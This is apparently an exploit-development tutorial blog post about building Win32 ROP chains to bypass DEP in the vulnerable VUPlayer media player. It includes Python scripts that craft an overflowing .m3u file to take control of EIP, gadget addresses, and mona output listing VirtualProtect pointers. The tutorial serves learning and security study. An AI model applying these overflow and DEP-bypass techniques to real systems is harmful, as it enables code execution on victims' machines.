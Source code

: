 ```yaml
---
layout: single
title: Creating Win32 ROP Chains 
date: 2019-11-02
classes: wide
header:
  teaser: /assets/images/avatar.jpg
tags:
  - Shellcode
  - Windows
  - Assembly
  - Return Oriented Programming 
  - ROP
  - Exploit Development
  - DEP Bypass
---
```


## Introduction
Continuing with the Windows exploit development our next stop is learning how to craft ROP chains. In the context of this blogpost we will be using them to disable DEP and execute shellcode on the stack; however, ROP chains are extremely versatile and in different contexts can be very powerful. Obviously stack based overflows aren't a very common bug class these days compared to 10 years ago, but this will allow us to use concepts we're familiar with (stack overflows) to learn concepts that are new to us (ROP chains). 

## ROP Chains
ROP stands for Return Oriented Programming. Essentially what we're doing is placing pointers to instructions on the stack, having execution follow those pointers to execute the instructions at that location and then execution returns to the stack to the next pointer. 

The reason this behavior is desirable is because when Data Execution Prevention (DEP) is enabled, we are typically unable to execute code in any section of memory that doesn't explicitly contain executable instructions. This means our traditional stack based overflow attacks won't work as we cannot execute shellcode on the stack. 

This is where the power of ROP comes into play. We uses tiny sections of existing code in the target program that are punctuated in sequence by a `RETN` instruction (called 'gadgets') and piece them together to make a function call which disables DEP. We can then run our shellcode on the stack as we're used to. 

## Required Reading
Corelan has essentially written a manifesto on DEP and Win32 ROP chains [here](https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/). Nothing I say or do in this blog is new or groundbreaking, I'm simply recapitulating the ROP learning process for beginners like myself interested in taking their Windows game further and documenting my work for my own reference. 

FuzzySec also has a phenomenal post [here](https://www.fuzzysecurity.com/tutorials/expDev/7.html) as part of their Tutorials series, which also does a great job of walking through the reasoning and logic behind ROP chains.

You need to read and understand these blog posts very well in order to keep up. I will do my best to step through the process with the reader; however, it's always best to consult multiple sources and Corelan and Fuzzy are much more experienced and knowledgeable than I am. 

## Getting Started
In order to save time from scanning through Exploit DB for a suitable PoC and recreating the exploit, I found this [blog post by Steven Patterson](https://www.shogunlab.com/blog/2018/02/11/zdzg-windows-exploit-5.html) and used the same vulnerable program. We will not be consulting the blog post for help on our ROP chain, simply using the same vulnerable program which you can download from [ExploitDB](https://www.exploit-db.com/exploits/40018). Afterwards, we can compare ROP chains and see if there were any areas we could've been more efficient. 

Our starting POC should look something like this: 
```python
import sys
import struct
import os

crash_file = "vuplayer-dep.m3u"

fuzz = "A" * 1012
fuzz += "B" * 4
fuzz += "C" * (3000 - len(fuzz))

makedafile = open(crash_file, "w")
makedafile.write(fuzz)
makedafile.close()
```

This code will create a file `vuplayer-dep.m3u`. Launch the player in Immunity, you'll get some warnings referencing breakpoints, this is normal just click through them. Drag your newly created file into the program GUI and it should crash overwriting EIP with `42424242`. 

Great, we control EIP. Next we need to pass execution the code we're going to overwrite the stack with. For this, we will simply use a `RETN` instruction. We need one that is not ASLR enabled, so let's go ahead and get `mona.py` out and check the modules with a `!mona modules` command. There are several modules in the output which do not have ASLR enabled, namely: `BASSWMA.dll`, `BASSMIDI.dll`, and `BASS.dll`. 

In Immunity, we can right click in the disassembler pane, the top left, and hit `Search for` > `All Commands in all modules` > `RETN` > `Find`. Scroll until you locate a suitable `RETN` instruction in one of the three aformentioned modules. For this blogpost, I will be using the `RETN` located at `0x10101008`. (Go ahead and check it!)

So we input this address into our POC. 

```python
import sys
import struct
import os

crash_file = "vuplayer-dep.m3u"

fuzz = "A" * 1012
fuzz += "\x08\x10\x10\x10" # 10101008  <-- Pointer to a RETN
fuzz += "C" * (3000 - len(fuzz))

makedafile = open(crash_file, "w")
makedafile.write(fuzz)
makedafile.close()
```

For all of our checking in this blogpost, the way I do it in Immunity is to open the MP3 player in the debugger, start it, go to the address of our `RETN` we know we'll be hitting every time, set a breakpoint. 

![](/assets/images/AWE/starting.JPG)

As you can see, we've hit our breakpoint and the stack looks perfect. EIP is at our `RETN` address and immediately after the pointer to our `RETN` function we see our `C` buffer where will we place additional pointers to ROP 'gadgets'.

## API Calls To Disable DEP
There are apparently a lot of different ways to disable DEP. FuzzySec has a nice chart on his blogpost so definitely check that out. We will use `mona.py` to determine what API call pointers we have access to that we can use to disable DEP with the command `!mona ropfunc`. This will output the results to `ropfunc.txt`. 

#### ropfunc.txt
```
0x00501a7c : msvcrt!strncpy | 0x75b808a9 | startnull,asciiprint,ascii {PAGE_READONLY} [VUPlayer.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.49 (C:\Program Files\VUPlayer\VUPlayer.exe)
0x00501150 : kernel32!freelibrary | 0x7569f137 | startnull,ascii {PAGE_READONLY} [VUPlayer.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.49 (C:\Program Files\VUPlayer\VUPlayer.exe)
0x005011f0 : kernel32!getprocaddress | 0x7569ce64 | startnull {PAGE_READONLY} [VUPlayer.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.49 (C:\Program Files\VUPlayer\VUPlayer.exe)
0x10109268 : kernel32.getmodulehandlea | 0x7569dac3 |  {PAGE_EXECUTE_READWRITE} [BASSWMA.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.3 (C:\Program Files\VUPlayer\BASSWMA.dll)
0x1060e254 : kernel32.getmodulehandlea | 0x7569dac3 |  {PAGE_EXECUTE_READWRITE} [BASSMIDI.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.3 (C:\Program Files\VUPlayer\BASSMIDI.dll)
0x1004027c : kernel32.getmodulehandlea | 0x7569dac3 | ascii {PAGE_EXECUTE_READWRITE} [BASS.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.3 (C:\Program Files\VUPlayer\BASS.dll)
0x1010926c : kernel32.getprocaddress | 0x7569ce64 |  {PAGE_EXECUTE_READWRITE} [BASSWMA.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.3 (C:\Program Files\VUPlayer\BASSWMA.dll)
0x1060e258 : kernel32.getprocaddress | 0x7569ce64 |  {PAGE_EXECUTE_READWRITE} [BASSMIDI.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.3 (C:\Program Files\VUPlayer\BASSMIDI.dll)
0x10040280 : kernel32.getprocaddress | 0x7569ce64 |  {PAGE_EXECUTE_READWRITE} [BASS.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.3 (C:\Program Files\VUPlayer\BASS.dll)
0x005011dc : kernel32!getmodulehandlea | 0x7569dac3 | startnull {PAGE_READONLY} [VUPlayer.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.49 (C:\Program Files\VUPlayer\VUPlayer.exe)
0x005011fc : kernel32!lstrcpyna | 0x756890f9 | startnull {PAGE_READONLY} [VUPlayer.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.49 (C:\Program Files\VUPlayer\VUPlayer.exe)
0x00501020 : bass!bass_streamcreatefile | 0x100106e3 | startnull,ascii {PAGE_READONLY} [VUPlayer.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.49 (C:\Program Files\VUPlayer\VUPlayer.exe)
0x00501200 : kernel32!createfilea | 0x7569ec31 | startnull {PAGE_READONLY} [VUPlayer.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.49 (C:\Program Files\VUPlayer\VUPlayer.exe)
0x00501c18 : comdlg32!getopenfilenamea | 0x75c9a2a9 | startnull,asciiprint,ascii {PAGE_READONLY} [VUPlayer.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.49 (C:\Program Files\VUPlayer\VUPlayer.exe)
0x005011d0 : kernel32!getlasterror | 0x7569cfb0 | startnull {PAGE_READONLY} [VUPlayer.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.49 (C:\Program Files\VUPlayer\VUPlayer.exe)
0x005011d4 : kernel32!createmutexa | 0x7569d9a4 | startnull {PAGE_READONLY} [VUPlayer.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.49 (C:\Program Files\VUPlayer\VUPlayer.exe)
0x00501abc : msvcrt!memmove | 0x75b79e5a | startnull {PAGE_READONLY} [VUPlayer.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.49 (C:\Program Files\VUPlayer\VUPlayer.exe)
0x10109270 : kernel32.virtualprotect | 0x75692e1d |  {PAGE_EXECUTE_READWRITE} [BASSWMA.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.3 (C:\Program Files\VUPlayer\BASSWMA.dll)
0x1060e25c : kernel32.virtualprotect | 0x75692e1d |  {PAGE_EXECUTE_READWRITE} [BASSMIDI.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.3 (C:\Program Files\VUPlayer\BASSMIDI.dll)
0x10040284 : kernel32.virtualprotect | 0x75692e1d |  {PAGE_EXECUTE_READWRITE} [BASS.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.3 (C:\Program Files\VUPlayer\BASS.dll)
0x00501214 : kernel32!lstrcpya | 0x7569a7df | startnull,ascii {PAGE_READONLY} [VUPlayer.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.49 (C:\Program Files\VUPlayer\VUPlayer.exe)
0x00501154 : kernel32!loadlibrarya | 0x7569de35 | startnull,ascii {PAGE_READONLY} [VUPlayer.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.49 (C:\Program Files\VUPlayer\VUPlayer.exe)
```


